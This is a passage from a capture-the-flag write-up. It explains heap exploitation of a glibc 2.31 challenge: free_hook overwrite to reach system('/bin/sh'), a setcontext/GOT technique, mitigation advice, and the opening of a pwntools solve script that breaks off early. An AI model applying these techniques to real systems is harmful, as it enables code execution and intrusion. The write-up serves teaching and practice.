 ## 4.1. Exploitation Variant 1<a id="exploitation variant 1"></a>
To turn an arbitrary write into RCE we can abuse the `free_hook` as the challenge just uses glibc version 2.31. Usually the `free_hook` is used to overwrite the behaviour of the `free` functionality e.g. for debugging purposes. But we can also use this hook to call `system` by overwriting it or executing a onegadget. So when e.g. `free("/bin/sh")` is called, actually `system("/bin/sh")` is called. Since glibc 2.34 such hooks were removed.

## 4.2. Exploitation Variant 2<a id="exploitation variant 2"></a>
For this challenge the following technique is a bit of an overkill. I got it from [this blog](https://hackmd.io/@pepsipu/SyqPbk94a) where it is explained in a more detailed way. There are some constraints you need to consider before you can apply this technique. First of all the `GOT` of the libc must be writeable. Second you need either one huge arbitrary write primitive or a primitive you can apply multiple times, as the payload is pretty big.
To apply this technique to the current challenge we need to make sure we can write enough for the `setcontext` payload. Moreover we can't exploit any bins other than the tcache bin, so with a size of 1010 we are still in tcache range and can write up to 1010 + 0x40 bytes which is just enough for the payload to write it as a whole.

# 5. Mitigation<a id="mitigation"></a>
First of all there is absolutely no need for the heap overflow. Just make sure the buffer size and the input size are an exact match. Moreover you should always explicitly set pointers to null when they are not used anymore.

# 6. Solve script<a id="solve script"></a>
## 6.1. Solve script - Exploit 1<a id="solve script exploit 1"></a>
Leak via UAF + tcache poisoning via UAF + free_hook
```python
#!/usr/bin/env python3
from string import Template
import glob
from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe
context.log_level = 'debug'

# must be dict
ENV_VARS = None

gdbscript = """
# breakrva 0x1ab5
# set max-visualize-chunk-size 0x250
continue
"""

def main():
    io = start_conn()

    def new(idx, size, first_payload):
        io.sendlineafter(b"> ", b"1")
        io.sendlineafter(b"> ", idx)
        io.sendlineafter(b"> ", size)
        io.sendlineafter(b"> ", first_payload)
```